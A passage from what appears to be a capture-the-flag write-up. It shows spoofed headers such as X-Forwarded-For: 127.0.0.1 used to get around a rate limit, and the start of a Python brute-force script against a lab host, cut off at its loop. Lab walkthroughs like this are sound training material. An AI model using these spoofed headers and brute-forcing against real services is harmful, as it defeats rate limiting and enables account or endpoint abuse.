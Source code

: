 ![Untitled](/assets/Sustah%20images/Untitled%203.png)

Base on the **response header**, I know that the **X-RateLimit-Limit** is the one that affect the error:

```
X-RateLimit-Limit: 10
X-RateLimit-Remaining: 9
X-RateLimit-Reset: 1697599120
```

Googling for awhile and I figure out that I need to modify the **request header** with these values:

- X-Originating-IP: 127.0.0.1
- X-Forwarded-For: 127.0.0.1
- X-Remote-IP: 127.0.0.1
- X-Remote-Addr: 127.0.0.1
- X-Client-IP: 127.0.0.1
- X-Host: 127.0.0.1
- X-Forwared-Host: 127.0.0.1

Therefore, I write a Python script to brute-force the number input while adding the above header values to bypass the **Rate Limit** error occurs:

{% highlight python linenos %}
import requests
import re

url = "http://sustah.thm:8085/"
headers = {"X-Remote-Addr":"127.0.0.1", "X-Originating-IP": "127.0.0.1", "X-Forwarded-For": "127.0.0.1", "X-Remote-IP": "127.0.0.1", "X-Host": "127.0.0.1"}
data = {"number": 5}
incorrect_num = "Oh no! How unlucky. Spin the wheel and try again."

# Start at 10000 because the placeholding in the answer path of the question is 5 digits number

for num in range(10000,99999):